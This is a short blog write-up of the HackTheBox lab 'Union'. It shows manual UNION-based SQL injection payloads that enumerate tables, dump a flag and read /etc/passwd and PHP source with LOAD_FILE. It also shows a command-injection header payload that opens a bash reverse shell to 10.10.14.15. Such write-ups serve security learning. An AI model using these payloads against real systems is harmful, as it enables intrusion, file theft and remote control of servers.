 ```yaml
---
layout: post
title: "Union"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security, SQLi, Web, PHP]
pin: true
math: true
mermaid: true
image:
  path: /assets/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


first nmap scan , only port 80 is open 
![/home/d0s3nt/myblog/_site/](assets/img/posts/Union/Pasted image 20240524161744.png)


There's definitely something here our input is checked on db , but how can we inject our sql query on it ?
![/home/d0s3nt/myblog/_site](/assets/img/posts/Union/Pasted image 20240524164641.png)


let's check sqlmap 
![Pasted image 20240524162539.png](/assets/img/posts/Union/Pasted image 20240524162539.png)

sqlmap didn't find anything 


but if we try a manual , UNION injection we can see a different response that may lead to sql injection

![Pasted image 20240524164820.png](/assets/img/posts/Union/Pasted image 20240524164820.png)

we can use this to enumerate database

the database used is `november`
![Pasted image 20240524164945.png](/assets/img/posts/Union/Pasted image 20240524164945.png)
the use is `uhc@localhost`
![Pasted image 20240524165106.png](/assets/img/posts/Union/Pasted image 20240524165106.png)

we an get the tables using 
```
' UNION SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES Where table_schema='november'--  
```
![Pasted image 20240524165512.png](/assets/img/posts/Union/Pasted image 20240524165512.png)

so the tables is `flag`
we can try to read the content of this table using
```
' UNION SELECT * from november.flag-- 
```
![Pasted image 20240524165638.png](/assets/img/posts/Union/Pasted image 20240524165638.png)

UHC{F1rst_5tep_2_Qualify} , if we take a look at challenge.php we will notice that the page is asking for a flag 

if we submit it , we can got ssh open to our ip
![Pasted image 20240524170203.png](/assets/img/posts/Union/Pasted image 20240524170203.png)

but we need credential to ssh into machine , let's try to read files on the machine using sql injection 
```
' UNION SELECT LOAD_FILE('/etc/passwd')--  
```
![Pasted image 20240524170450.png](/assets/img/posts/Union/Pasted image 20240524170450.png)

Now we can read file , let's read the php files 
if we check the firewall.php 

```
' UNION SELECT LOAD_FILE('/var/www/html/firewall.php')--  
```
![Pasted image 20240524170736.png](/assets/img/posts/Union/Pasted image 20240524170736.png)

we can see that we can inject code in header 


```php
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT"); 
?>
```
              

if we use HTTP_X_FORWARDED_FOR we can inject our code into this header

```
X-FORWARDED-FOR: ;bash -c 'exec bash -i &>/dev/tcp/10.10.14.15/1337 <&1';
```

![Pasted image 20240524175113.png](/assets/img/posts/Union/Pasted image 20240524175113.png)

![Pasted image 20240524175152.png](/assets/img/posts/Union/Pasted image 20240524175152.png)

